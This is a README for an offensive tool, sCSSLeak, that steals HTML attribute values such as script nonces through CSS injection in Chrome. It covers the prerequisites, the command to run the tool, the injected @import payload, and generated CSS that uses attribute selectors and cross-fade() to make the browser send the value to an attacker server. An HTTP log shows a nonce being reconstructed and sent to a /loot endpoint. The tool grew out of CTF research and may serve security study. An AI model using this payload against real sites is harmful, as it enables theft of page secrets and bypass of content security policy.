 # sCSSLeak
This tool allows to leak HTML tag attributes using a standalone CSS file. The technique is solely inspired by [`newdiary`](https://blog.huli.tw/2023/12/11/en/0ctf-2023-writeup/#web-newdiary-14-solves) from 0CTF.


## Leak Technique 

The approach involves finding a method to assign multiple background images to a single element **using a standalone CSS file**, ensuring that the browser fetches all of them. The [`cross-fade()`](https://developer.mozilla.org/en-US/docs/Web/CSS/cross-fade) CSS function accepts two images and a percentage as input and produces an image obtained by blending the two images.

# Attack Prerequisites 

- Style tag injection 
- Target attribute must not have ```type=hidden``` (which is usually the case) but still useful for leaking tags such as `script[nonce]` and others

This will only work on Chrome as other brwoser does not support `cross-fade`


# Configuration

The script will retrieve and reconstruct the nonces from the requests and print them to both the console where the script was executed and the **/loot** endpoint.

- `--base_url`: The base URL of the server.
- `--nonce_len`: The length of the nonce to be retrieved.
- `--tag`: A tag to identify the type of requests.
- `--attr`: The attribute name containing the nonce.
- `--port` port 
- `--charset` default='abcdefghijklmnopqrstuvwxyz0123456789'

# Usage

To leak the nonce attribute from the script tag i.e: 

```html 
<head>
<style>@import url(http://127.0.0.1:8081/leak);</style>
</head>
<body>
  <script nonce="[random string]"></script>
</body>
```

The script must be executed as follows: 

```bash
python3 main.py --base_url http://127.0.0.1:8081 --nonce_len 26 --tag script --attr nonce --port 8081
```

Which can then be imported as:

```<style> @import url(http://127.0.0.1:8081/leak); </style>```

Which should have already initiatied the `/leak` endpoint with the following structure

```css
script[nonce*='aaa']{ --aaa: url('http://127.0.0.1:8081/leak?x=aaa'); }
script[nonce*='aab']{ --aab: url('http://127.0.0.1:8081/leak?x=aab'); }
...
...
script{display:block;}script { background-image: -webkit-cross-fade(-webkit-cross-fade(var(--aaa, none), var(--aab, none), 50%), -webkit-cross-fade(var(--aac, none), var(--aad, none), 50%), 50%), -webkit-cross-fade(-webkit-cross-fade(var(--aae, none), var(--aaf, none), 50%), -webkit-cross-fade(var(--aag, none), var(--aah, none), 50%), 50%), -webkit-cross-fade(-webkit-cross-fade(var(--aai, none), var(--aaj, none), 50%), -webkit-cross-fade(var(--aak, none), var(--aal, none), 50%), 50%)
...
```

After execution, the http log should look like the following

```
127.0.0.1 - - [24/Jan/2024 05:15:24] "GET /leak HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=bnm HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=cvb HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=fkg HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=fsp HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=efs HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=ghj HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=hjy HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=mwe HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=krz HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=nmw HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=jyk HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=kgh HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=pxe HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=rzx HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=spx HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=wef HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=vbn HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=xcv HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=29f HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=ykr HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=9fk HTTP/1.1" 200 -
[+] leaked nonce: 4329fkghjykrzxcvbnmwefspxe
[+] leaked nonce: 4329fkghjykrzxcvbnmwefspxe
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=329 HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=zxc HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=432 HTTP/1.1" 200 -
```

The leaked value can then be found on the `/loot` endpoint as well as the terminal.


# Installation 

Clone the repository & Install the dependencies
```
git clone https://github.com/ixSly/sCSSLeak
cd sCSSLeak
python3 -m pip install -r requirements.txt
```

# Resources

- [newdiary - 0CTF Challenge](https://blog.huli.tw/2023/12/11/en/0ctf-2023-writeup/#web-newdiary-14-solves)
- [Code Vulnerabilities Put Proton Mails at Risk](https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/)

- [ What can we do with single CSS injection? ](https://www.reddit.com/r/Slackers/comments/dzrx2s/what_can_we_do_with_single_css_injection/)

- [One Shot CSS Injection ](https://waituck.sg/2023/12/11/0ctf-2023-newdiary-writeup.html)
